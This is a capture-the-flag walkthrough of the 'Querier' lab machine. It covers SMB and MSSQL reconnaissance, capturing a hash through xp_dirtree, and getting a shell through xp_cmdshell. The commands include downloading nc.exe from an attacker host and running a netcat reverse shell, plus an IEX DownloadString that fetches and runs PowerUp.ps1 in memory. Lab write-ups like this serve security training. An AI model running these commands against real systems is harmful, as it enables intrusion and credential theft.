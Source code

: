 # Querier

### Reconnaissance

- port 135/tcp RPC
- port 139/tcp NetBIOS
- port 445/tcp SMB 
- port 1433/tcp Microsoft SQL Server 2017 14.00.1000.00
- port 5985/tcp WinRM Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 47001/tcp WinRM Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) [Listening port for local requests](https://morgansimonsen.com/2009/12/10/winrm-and-tcp-ports/)
- port 49664-49671/tcp RPC

SMB share with anonymous access containing a spreadsheet. The spreadsheet has a connection macro for MsSQL 
with credentials in the connection string (Use binwalk to see contents of xls files as an alternative to 
LibreOffice/Excel)

![SQL connection string](./pictures/sql-password.png)

### Exploitation

Connect to the database with impacket's mssqlclient.py (tried using sqlcmd but the auth fails, don't know why)

`python2.7 /opt/impacket-0.9.19/examples/mssqlclient.py QUERIER/reporting:'password'@10.10.10.125 -windows-auth`

Start Impacket's smbserver.py and use xp_dirtree to grab the mssql-svc NVLMv2 hash

`python2.7 smbserver.py -smb2support shareName /path/to/share`

`SQL> exec xp_dirtree '\\10.10.10.10\\share',1,1`

Cracking the hash gives us the mssql-svc account credentials and the ability to start a reverse shell on the 
target

Connect to the SQL server as mssql-svc and use msfconsole's `exploit/multi/script/web_delivery` to generate a 
powershell command to execute for a reverse meterpreter shell

Enable and use `xp_cmdshell` to execute the powershell command giving us a reverse shell as mssql-svc

Alternatively, host nc.exe and upload it to the target 

`xp_cmdshell powershell -c Invoke-WebRequest 10.10.10.10:8000/nc.exe -OutFile C:\Reports\nc.exe`

Start a listener on the attacking machine and run nc.exe on the target to get a reverse shell

`xp_cmdshell C:\Reports\nc.exe 10.10.10.10 4444 -e cmd.exe`

### Privilege Escalation

certutil didn't work for downloading files so we can use a python ftp server or Invoke-WebRequest to upload 
winpeas, Sherlock, PowerUp, etc. or use powershell to execute the files in memory

`python -m pyftpdlib -p 21 --write`

`echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/PowerUp.ps1') | powershell -noprofile -`

Using PowerUp.ps1 we can find the Administrator credentials in a cached GPP file and use psexec.py to gain a 
system shell

PowerUp.ps1 also shows a vulnerable service binary path

